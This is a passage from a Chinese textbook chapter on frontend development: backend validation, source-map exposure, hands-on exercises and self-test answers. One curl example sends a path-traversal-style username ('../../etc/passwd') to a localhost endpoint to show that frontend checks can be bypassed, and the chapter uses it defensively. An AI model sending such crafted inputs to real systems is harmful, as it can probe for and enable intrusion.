最小演示：假设注册页面上用户名只允许 3–24 位字母数字下划线，前端在提交前检查了这一点。攻击者不需要打开这个页面——直接发请求即可：

```bash
# 在任意终端运行（Linux/macOS 用 Bash，Windows 用 PowerShell 的 curl.exe 或仍用 Git Bash）
# 绕开前端校验，直接向后端注册一个前端根本不可能提交的用户名
curl -i -X POST http://localhost:8000/api/register \
  -H "Content-Type: application/json" \
  -d '{"username":"../../etc/passwd","password":"x"}'
# 观察响应：如果后端没有独立校验，可能返回 200 —— 说明它相信了客户端传来的任何内容
```

这不是在演示“如何攻击”，而是在确认你自己服务端的行为是否可靠。正确的后端必须**独立地**做同一套校验，把无效输入挡在数据库和文件系统之外。观察 `reader-api/app.py` 的写法：`username_problem()` 用正则 `^[A-Za-z0-9_-]{3,24}$` 检查用户名，`password_problem()` 检查密码长度——这些检查发生在**服务端**，无论请求由浏览器、`curl` 还是脚本发出都要经过它们。

区分清单：

| 校验位置 | 目的 | 攻击者能否绕过 |
|---|---|---|
| 前端（浏览器里） | 即时反馈、减少无效请求、提升体验 | 能——直接发 HTTP 请求即可 |
| 后端（服务端） | 保证数据与业务规则的完整性，是安全边界 | 不能（除非接口本身有漏洞） |

两侧常写同一套规则，但**后端的校验是必须的，前端的只是加分项**。另一条相关底线：任何来自请求的输入——URL 参数、请求体、表单、HTTP 头——都默认不可信，都要在后端校验或转义后使用（§32.1 的 SQL 注入和 XSS 都是绕过前端直接构造输入的后果）。

---

## $\rm \S \, 28.10$ source map：让线上堆栈对得上源码

### $\rm \S \, 28.10.1$ 问题：发布后的代码已经不是你写的那个

为了减小体积、加快加载，工程里会对 JavaScript 做**压缩**（minify，去掉空白、注释、缩短变量名）和**打包**（bundle，把几十个模块合进一个文件）。这个过程会改变一切位置信息：

- 你写的是 `src/components/PaperCard.js` 第 42 行；打包后所有模块拼进 `app.min.js`，那一行可能在 13847 行。
- 变量名 `paperTitle` 被压成 `t`；函数名全部消失或变成单个字母。
- 多个源文件合并成一个，行号与列号全部错位。

于是线上报错时的堆栈长这样：`TypeError: Cannot read properties of undefined (reading 'length') at app.min.js:1:23491`。行号 `1`、列号 `23491` 对源码毫无意义，你无法定位到是哪一行。

### $\rm \S \, 28.10.2$ source map 如何还原

**source map**（源码映射）是一份 `.map` 文件，记录“生成文件中的第 X 行第 Y 列，对应源文件的第 A 行第 B 列”，以及还原用的源文件名和（可选）源码内容。浏览器或错误追踪平台读到生成文件末尾的注释后自动加载它：

```javascript
// app.min.js 末尾
//# sourceMappingURL=app.min.js.map
```

有这份文件时，DevTools 的 Sources 面板会自动把压缩代码的堆栈翻译回原文件名与行号——你看到的又是 `PaperCard.js:42`。DevTools 会在底部状态栏提示“Source Map detected”，也可在 Sources 面板中选择某个 `.map` 手动加载。

```json
// app.min.js.map 的关键字段（简化示意）
{
  "version": 3,
  "file": "app.min.js",
  "sources": ["../src/components/PaperCard.js"],
  "sourcesContent": ["...原始源码文本..."],
  "mappings": "AAAA,IAAM,..."
}
```

### $\rm \S \, 28.10.3$ 不要把 source map 连同源码公网发布

`source map` 在排查线上问题时价值极高，但它**包含原始源码**（`sourcesContent` 字段），还往往带着源码路径、注释、内部函数名和接口结构。把它放在公网目录下，任何人只要按约定访问 `/<你的打包文件>.map` 就能下载你注释过的全部代码——这是信息泄露，也是攻击者理解你后端接口结构的捷径。

正确的做法是**两种模式选其一**：

1. **只上传给错误追踪服务**：构建时生成 map、上传到 Sentry 之类的平台，然后从发布产物里删掉它。平台用它还原堆栈，公网拿不到。这是生产环境的常规做法。
2. **限制访问**：确实需要直接访问时，把 `.map` 放在需要鉴权的位置，或在 Nginx 里对 `*.map` 返回 404。

后端/前端工程里可见的实现就是：`.map` 加入 `.dockerignore` 或构建后删除，并把上传步骤写进 CI，而不是 `COPY . .` 时把整个 `dist/` 连同 `.map` 一起推到服务器。发布前可以自查一次：用 `curl -I https://你的域名/assets/app.min.js.map` 看是否返回 200——返回 200 且能下载就是需要修的问题。

---

## $\rm \S \, 28.11$ 动手实践

三个实践共用一个页面，不需要 Node.js 或构建工具。先建工作目录并进入（Bash：`mkdir frontend-lab && cd frontend-lab`；PowerShell：`mkdir frontend-lab; cd frontend-lab`）；浏览器用第 5 章 §5.11 的开发者工具（F12）辅助观察。

### $\rm \S \, 28.11.1$ 实践一：纯 HTML 论文列表

1. 创建一个 `index.html`，包含 §28.1.3 的最小结构。成功标志：双击打开能看到一级标题和段落；若中文乱码，检查 `<meta charset="UTF-8">`（§28.1.3）。
2. 在 `<body>` 中手写一个论文列表（`<ul>` + 5 个 `<li>`）。预期输出：刷新后看到 5 条列表项。
3. 用 `<input>` 添加搜索框，用 §28.5.2 的 JavaScript 实现实时筛选。预期输出：输入关键词时列表实时隐藏不匹配项、清空后全部恢复。
4. 打开方式二选一：直接双击文件（`file://` 协议即可——本实践不发 `fetch`），或用 `python -m http.server 8080` 后访问 `http://localhost:8080`。
5. 清理：保留 `index.html` 给实践二、三用；全部做完后再删除练习目录。

### $\rm \S \, 28.11.2$ 实践二：加入 CSS 样式

前置：实践一的 `index.html`。

1. 在 `<head>` 中用 `<style>` 标签添加 CSS。预期输出：刷新后标题变蓝、居中。
2. 给论文卡片加边框、内边距、不同颜色。成功标志：用开发者工具 Elements 面板选中一张卡片，能看到盒模型里的 margin/border/padding 都有你设置的值。
3. 用 Flexbox 让搜索框和筛选器并排显示——Flexbox 是 CSS 的一维布局方式：给容器加 `display: flex` 后，子元素默认沿水平方向排列。预期输出：两个控件落在同一行（窗口不够宽时会被挤压，因为没有设置换行）。
4. 清理：删掉调试用的临时样式（如加过的 `outline`）；文件留给实践三使用。

### $\rm \S \, 28.11.3$ 实践三：从 API 加载数据

前置：实践一的页面；纯前端方案需要在页面同目录放一个 `papers.json`（格式见 §6.5.1）并用 `python -m http.server 8080` 启动——浏览器的 `fetch()` 在 `file://` 下不工作（§28.5.3）。要加载真实 API，则需要[第 29 章](29-后端与API.md)的后端在 `localhost:8000` 运行。

1. 把硬编码的 `<li>` 列表替换为 §28.5.3 的 `fetch` 方案。成功标志：开发者工具 Console 能看到解析后的数组（或 Network 面板中 `papers.json` 返回 200），页面渲染出论文条目。
2. 改用后端数据：先前端与后端同源访问，或给后端加 CORS 允许前端来源；若直接在页面里请求 `http://localhost:8000` 而没有 CORS 头，预期 Console 报跨域错误——这是排查方向，不是代码写错（§28.5.3）。
3. 处理三种状态：加载中（“正在加载…”）、成功（论文列表）、错误（“加载失败” + 重试按钮）。测试方法：把 `papers.json` 改名或停掉后端再刷新，预期页面显示错误提示而不是白屏。
4. 清理：Ctrl+C 停掉 `python -m http.server`（和后端）；保留前端文件，第 29 章实践二会继续对接。

---

## $\rm \S \, 28.12$ 总结

- **HTML** 描述文档结构——浏览器把它解析为 DOM 树。标签标注了每段内容的角色（标题/段落/输入框/按钮）。
- **CSS** 描述视觉外观——选择器选中元素，属性控制颜色、大小、间距。每个元素是一个矩形盒（内容→内边距→边框→外边距）；多条规则冲突时按“来源与重要性 → 特异性 → 出现顺序”裁决。
- **渲染管线** 是 DOM + CSSOM → 渲染树 → 布局 → 绘制 → 合成。改 class 比逐个改 `style` 快，是因为一次写入只触发一遍管线；读布局属性会强制同步布局，读写交替造成 layout thrashing。
- **浏览器存储** 分四种：cookie（约 $4\text{ KB}$、随请求自动发送、可设 `HttpOnly`）、localStorage（约 $5\text{–}10\text{ MB}$、永久、同步）、sessionStorage（关闭标签页即失效）、IndexedDB（容量大、异步、可存二进制）。token 放 `HttpOnly` cookie，不放 localStorage。
- **JavaScript** 描述交互行为——查找元素、修改内容和样式、响应事件、通过 `fetch` 从后端获取数据。`fetch` 和 `curl` 做同一件事。
- **前端校验只管体验**——任何校验都能被直接发请求绕过，服务端必须独立校验。
- **语义化与可访问性**——用 `<nav>/<main>/<button>` 等原生元素，键盘可达性（Tab/Enter/Space、焦点管理）免费获得；`aria-*` 只在原生标签无法表达时补充。
- **响应式** 靠 `viewport` meta + 媒体查询 + 移动优先断点；固定像素宽度是手机横向滚动的常见原因。
- **source map** 把压缩后的堆栈还原到源码，但内含源码，不能公网发布。
- **组件化** 是管理复杂 UI 的方式——和 C++ 中用类封装职责是同一个思想。React/Vue/Svelte 都实现“数据驱动视图”。

---

## $\rm \S \, 28.13$ 关键概念回顾

1. 浏览器从输入 URL 到显示页面，做了哪两件核心工作？

2. HTML、CSS、JavaScript 各自负责什么？为什么需要三者分工？

3. 渲染管线的五个阶段是什么？“改 class 比逐个改 style 快”的准确原因是什么？

4. cookie、localStorage、sessionStorage、IndexedDB 在“生命周期”和“是否随请求自动发送”这两个维度上分别有什么区别？

5. 为什么不能把登录 token 存进 localStorage？应当放在哪里？

## $\rm \S \, 28.14$ 应用与辨析

6. 直接写 `<h1>论文列表</h1>`，和用 JavaScript 创建一个 `<h1>` 元素再插入 DOM，最终用户看到的效果一样吗？有什么区别？

7. 界面已经用 JavaScript 校验了“标题不能为空”，是否可以不写后端校验？用一个具体操作说明。你改了 CSS 文件但刷新后没变化，检查顺序是什么？

8. `<div onclick="save()">保存</div>` 在鼠标下正常，键盘用户却完全无法触发它；同时这个页面在手机上有横向滚动条。分别说明原因并给出修法。

## $\rm \S \, 28.15$ 本章自测答案

> 先闭卷作答本章“关键概念回顾”与“应用与辨析”，再核对以下答案。

### $\rm \S \, 28.15.1$ 自测答案 · 关键概念回顾
1. ①获取资源：通过 HTTP 从服务器下载 HTML/CSS/JS/图片。②渲染页面：把 HTML 解析为 DOM 树，应用 CSS 样式，执行 JavaScript，转换为屏幕像素。
2. HTML 负责结构和内容（“有什么”），CSS 负责样式和布局（“长什么样”），JavaScript 负责交互和逻辑（“用户操作时怎么响应”）。三者分工让内容、外观和行为可以独立修改——改颜色不需要动 HTML，改结构不需要动 JS。
3. ①解析 HTML 构建 DOM 树与解析 CSS 构建 CSSOM 树；②两者合并为渲染树（只含实际显示的节点）；③布局，算出每个盒子的位置与尺寸；④绘制，记录要画的像素；⑤合成，各图层由 GPU 绘制后叠加。改 class 快，不是因为“class 更底层”，而是**一次写入只触发一遍样式重算与后续管线**；在一百个元素上逐个写 `style.width` 会为每次写入各重跑一遍布局。边界：若 class 里含 `width` 这类参与布局的属性，照样触发完整布局。
4. 生命周期：cookie 由 `Max-Age`/`Expires` 决定（不设则关闭标签页失效），localStorage 永久直到代码或用户清除，sessionStorage 关闭该标签页即失效，IndexedDB 永久。是否随请求发送：只有 cookie 会随同源请求自动带上，另外三种都不会（必须由 JavaScript 显式读写）。
5. localStorage 的全部内容对同源下的任何 JavaScript 可读，且没有 `HttpOnly` 这样的开关——页面一旦存在 XSS，注入脚本一行就能读走 token 并发往外部。应放在带 `HttpOnly`（生产环境再加 `Secure`、`SameSite`）的 cookie 里，浏览器自动携带，JavaScript 读不到。

### $\rm \S \, 28.15.2$ 自测答案 · 应用与辨析
6. 最终视觉效果一样。区别在于：HTML 声明式定义（页面加载时一次性构建），JavaScript 动态创建（可以在用户交互后改变）。搜索引擎和屏幕阅读器能看到 HTML 中的 `<h1>`，但不一定能看到 JavaScript 动态插入的内容。
7. 不可以。前端校验运行在用户控制的浏览器里，绕开它只需一条命令：`curl -X POST` 直接向后端发请求，请求体里可以填任意内容，前端的任何检查都不会执行。所以后端必须独立做同一套校验（如 `reader-api/app.py` 的 `username_problem()`），前端校验只是减少无效请求的体验优化。CSS 不生效按顺序查三项：①浏览器是否缓存了旧文件（硬刷新 Ctrl+Shift+R 或 Network 面板勾 Disable cache）；②DevTools 的 Styles 面板里你的声明是否被划掉——被划掉说明被更高特异性或更靠后的规则覆盖（§28.2.4）；③选择器是否真的命中了元素（在 Elements 面板用 Ctrl+F 搜选择器，或在 Console 里 `document.querySelectorAll('.paper-card').length` 看是否为 0）。
8. 两个问题都源于用通用元素和固定尺寸代替了浏览器本来就提供的能力。①`<div>` 默认不可聚焦，不在 Tab 顺序里、也不带任何交互角色，因此拿不到键盘焦点，浏览器也不会在 Enter/Space 时触发 `click`；改用 `<button type="button" onclick="save()">保存</button>` 即自动获得 Tab 焦点、Enter/Space 触发与焦点样式。②横向滚动通常是漏了 `<meta name="viewport" content="width=device-width, initial-scale=1">`（没有它时手机用约 $980\text{px}$ 的虚拟视口布局，固定宽度容器就会溢出），修法还包括把 `width: 1200px` 改成 `max-width: 1200px` 配合 `width: 100%`、给固定尺寸元素加 `max-width: 100%`、以及用 `@media` 在小屏改为单列。在 DevTools 设备工具栏拖动宽度即可验证。

---

前端让论文管理器从终端走进了浏览器。但 `fetch('/api/papers')` 这个请求需要有一台**后端服务器**来响应——它要解析 URL 中的参数、查询数据库、把 Python 对象格式化为 JSON 返回。下一章写这个后端。

> 你现在能：看懂 HTML 结构、用 CSS 控制布局、用 JavaScript 操作页面与发起 fetch，把一份 JSON 数据渲染成可筛选的列表；并能解释渲染管线为何对性能敏感、浏览器存储各自该放什么、以及为什么校验必须做在服务端
